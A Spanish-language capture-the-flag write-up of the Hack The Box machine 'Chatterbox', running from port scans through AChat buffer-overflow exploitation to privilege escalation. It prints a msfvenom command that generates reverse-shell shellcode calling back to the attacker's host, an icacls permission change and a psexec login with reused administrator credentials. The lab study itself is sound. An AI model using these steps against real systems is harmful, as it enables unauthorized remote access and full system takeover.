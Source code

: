 # Estadísticas

| Característica | Descripción |
|---|---|
| Nombre | [Chatterbox](https://www.hackthebox.com/home/machines/profile/123) |
| OS | Windows |
| Dificultad oficial | Medium |
| Dificultad de comunidad | ![Dificultad](images/difficulty.png) |
| Puntos | 30 |
| Creadores | [lkys37en](https://www.hackthebox.com/home/users/profile/709) |

# Reconocimiento

## Escaneo de host

### Escaneo completo de puertos

```bash
└─$ nmap -T5 -vvv -open -p- -n -Pn -oG nmap/all_ports $TARGET
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-27 13:36 EDT
Initiating Connect Scan at 13:36
Scanning 10.10.10.74 [65535 ports]
Discovered open port 135/tcp on 10.10.10.74
Discovered open port 139/tcp on 10.10.10.74
Discovered open port 445/tcp on 10.10.10.74
Discovered open port 49152/tcp on 10.10.10.74
Discovered open port 49154/tcp on 10.10.10.74
Discovered open port 9256/tcp on 10.10.10.74
Discovered open port 49153/tcp on 10.10.10.74
Discovered open port 9255/tcp on 10.10.10.74
Discovered open port 49155/tcp on 10.10.10.74
Discovered open port 49157/tcp on 10.10.10.74
Discovered open port 49156/tcp on 10.10.10.74
Completed Connect Scan at 13:37, 29.11s elapsed (65535 total ports)
Nmap scan report for 10.10.10.74
Host is up, received user-set (0.073s latency).
Scanned at 2022-05-27 13:36:42 EDT for 29s
Not shown: 54223 closed tcp ports (conn-refused), 11301 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE      REASON
135/tcp   open  msrpc        syn-ack
139/tcp   open  netbios-ssn  syn-ack
445/tcp   open  microsoft-ds syn-ack
9255/tcp  open  mon          syn-ack
9256/tcp  open  unknown      syn-ack
49152/tcp open  unknown      syn-ack
49153/tcp open  unknown      syn-ack
49154/tcp open  unknown      syn-ack
49155/tcp open  unknown      syn-ack
49156/tcp open  unknown      syn-ack
49157/tcp open  unknown      syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 29.15 seconds
```

### Escaneo específico

```bash
└─$ nmap -sCV -p 135,139,445,9255,9256,49152,49153,49154,49155,49156,49157 -n -Pn -oN nmap/targeted $TARGET
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-27 13:39 EDT
Nmap scan report for 10.10.10.74
Host is up (0.074s latency).

PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
9255/tcp  open  http         AChat chat system httpd
|_http-server-header: AChat
|_http-title: Site doesn't have a title.
9256/tcp  open  achat        AChat chat system
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Service Info: Host: CHATTERBOX; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 6h20m01s, deviation: 2h18m36s, median: 4h59m59s
| smb2-time:
|   date: 2022-05-27T22:40:43
|_  start_date: 2022-05-27T22:34:47
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.1:
|_    Message signing enabled but not required
| smb-os-discovery:
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: Chatterbox
|   NetBIOS computer name: CHATTERBOX\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-05-27T18:40:47-04:00

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 70.63 seconds
```

# Enumeración

## Servicios

### achat - 9255, 9256

#### Manual

Al buscar hacer un reconocimiento directamente por alguna versión vulnerable se encontró [este repositorio en github](https://github.com/mpgn/AChat-Reverse-TCP-Exploit) de una prueba de concepto sobre la explotación del programa, probado en su versión y arquitectura `AChat 0.150 Beta 7 Windows 7/8/10 x86/x64`. Por lo que directamente se probó el exploit.

# Explotación

## Buffer Overflow - RCE

### Pasos previos | Preparación

Dadas las indicaciones en la PoC se generó el shellcode correspondiente usando:

```bash
msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp RHOST=$RHOST LHOST=10.10.14.16 LPORT=4321 exitfunc=thread -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python > scode.txt
```

Sustituyendo los valores correspondientes en el script del shellcode y host.

### Ejecución

Obteniendo acceso como el usuario `alfred`.

![Acceso como usuario alfred](images/exploit_1.png)

# Post Explotación

## Enumeración

Posteriormente al ejecutar [winPEAS](https://github.com/carlospolop/PEASS-ng), se identificaron dos rutas potenciales a probar:

1. El usuario con el que se cuenta (alfred) tiene acceso completo al directorio del usuario Administrator.
2. Existen credenciales AutoLogon visibles.

![Rutas potenciales](images/post_1.png)

## Escalación de privilegios

### alfred &rarr; nt authority system

En el primer caso, bastaría con leer, escribir o ejecutar cualquier archivo dentro del directorio, si llegara a suceder que no se permite el acceso a un archivo bastaría con hacer uso de `icacls` para efectuar el cambio de permisos lo cual por herencia o jerarquía del directorio, se permitiría este cambio pudiendo así leer la bandera de `root.txt`.

Por medio de:

```powershell
icacls .\root.txt /e /p alfred:f
```

Tomando como referencia [este post](https://www.cyberciti.biz/tips/windows-change-access-permissions-from-the-command-line.html) para verificar el uso del binario.

![Cambio de permisos](images/post_2.png)

En el segundo caso, al probar alguna herramienta que permita acceso al sistema con credenciales como `psexec` se puede obtener una shell como `NT AUTHORITY SYSTEM`, probando las credenciales obtenidas anteriormente bajo la suposición de reutilización de contraseña.

Ejecutando:

```bash
impacket-psexec 'Administrator:Welcome1!@10.10.10.74'
```

![Acceso como nt authority system](images/post_3.png)

# Referencias

- [AChat expoit](https://github.com/mpgn/AChat-Reverse-TCP-Exploit).
- [Windows change access permissions from the command line](https://www.cyberciti.biz/tips/windows-change-access-permissions-from-the-command-line.html).
